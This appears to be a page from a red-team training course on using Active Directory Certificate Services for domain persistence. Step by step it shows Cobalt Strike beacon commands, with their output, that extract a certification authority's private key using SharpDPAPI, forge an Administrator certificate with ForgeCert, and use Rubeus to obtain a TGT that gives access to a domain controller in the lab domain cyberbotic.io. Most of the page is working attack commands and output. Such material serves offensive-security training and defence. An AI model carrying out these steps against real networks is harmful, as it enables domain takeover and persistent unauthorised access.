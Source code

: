 In larger organisations, the AD CS roles are installed on separate servers and not on the domain controllers themselves.  Often times, they are also not treated with the same sensitivity as DCs.  So whereas only EAs and DAs can access/manage DCs, "lower level" roles such as server admins can often access the CAs.

So although this can be also seen a privilege escalation, it's just as useful as a domain persistence method.

Gaining local admin access to a CA allows an attacker to extract the CA private key, which can be used to sign a forged certificate (think of this like the krbtgt hash being able to sign a forged TGT).  The default validity period for a CA private key is 5 years, but this can obviously be set to any value during setup, sometimes as high as 10+ years.

Once on a CA, [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) can extract the private keys.

```
beacon> run hostname
dc-1

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Debug\SharpDPAPI.exe certificates /machine
```


![](https://rto-assets.s3.eu-west-2.amazonaws.com/domain-dominance/private-ca-key.png)

  

You can generally tell this is the private CA key because the Issuer and Subject are both set to the distinguished name of the CA.  With any luck, the expiry date will also be long into the future.  Save the output to a `.pem` file and convert it to a `.pfx` with openssl on Kali, then move it back to the attacker-windows machine.

The next step is to build the forged certificate with [ForgeCert](https://github.com/GhostPack/ForgeCert).

```
C:\Users\Administrator\Desktop>C:\Tools\ForgeCert\ForgeCert\bin\Debug\ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword "password" --Subject "CN=User" --SubjectAltName "Administrator@cyberbotic.io" --NewCertPath fake.pfx --NewCertPassword "password"
CA Certificate Information:
  Subject:        CN=ca-1, DC=cyberbotic, DC=io
  Issuer:         CN=ca-1, DC=cyberbotic, DC=io
  Start Date:     2/25/2022 11:29:14 AM
  End Date:       2/25/2047 11:39:08 AM
  Thumbprint:     7F8A1EFB7A50E2D1DE098085301926AA13AE0A71
  Serial:         31AC83C6678F28994CFB58207C9FB668

Forged Certificate Information:
  Subject:        CN=User
  SubjectAltName: Administrator@cyberbotic.io
  Issuer:         CN=ca-1, DC=cyberbotic, DC=io
  Start Date:     3/1/2022 2:19:20 PM
  End Date:       3/1/2023 2:19:20 PM
  Thumbprint:     73C45EC22357C0451E0F374AC30B5C6F6034B132
  Serial:         009E1C0AE8A247695199F8157DB37E38AD

Done. Saved forged certificate to fake.pfx with the password 'password'
```

  

Even though you can specify any SubjectAltName, the user does need to be present in AD.  In this example, the default Administrator account is used.  Then we can simply use Rubeus to request a legitimate TGT with this forged certificate and use it to access the domain controller.

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> ls \\dc-1.cyberbotic.io\c$
[-] could not open \\dc-1.cyberbotic.io\c$\*: 5

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:Administrator /domain:cyberbotic.io /certificate:MIACAQ[...snip...]IEAAAA /password:password /nowrap

[*] Using PKINIT with etype rc4_hmac and subject: CN=User 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'cyberbotic.io\Administrator'
[*] Using domain controller: 10.10.15.75:88

[+] TGT request successful!
[*] base64(ticket.kirbi):

doIF4j [...snip...] 5pbw==

  ServiceName              :  krbtgt/cyberbotic.io
  ServiceRealm             :  CYBERBOTIC.IO
  UserName                 :  Administrator
  UserRealm                :  CYBERBOTIC.IO
  StartTime                :  3/1/2022 2:22:55 PM
  EndTime                  :  3/2/2022 12:22:55 AM
  RenewTill                :  3/8/2022 2:22:55 PM
  Flags                    :  name-canonicalize, pre-authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  WVE8rl7BfHlOdAPGq7cjJw==
  ASREP (key)              :  5681DDB25CFF9F80C65E4976DB23B0B7

beacon> make_token CYBER\Administrator FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\dc-1-tgt.kirbi

beacon> ls \\dc-1.cyberbotic.io\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 09:22:26   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/25/2022 11:20:17   inetpub
          dir     02/23/2018 11:06:05   PerfLogs
          dir     01/20/2022 15:55:20   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     02/25/2022 12:10:08   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     01/20/2022 15:50:53   Shares
          dir     02/19/2021 10:18:17   System Volume Information
          dir     05/15/2021 16:48:31   Users
          dir     03/01/2022 14:06:29   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 512mb    fil     03/01/2022 10:13:44   pagefile.sys
```

We're not limited to forging user certificates, we can do the same for machines.  Combine this with the S4U2self trick to gain access to any machine or service in the domain.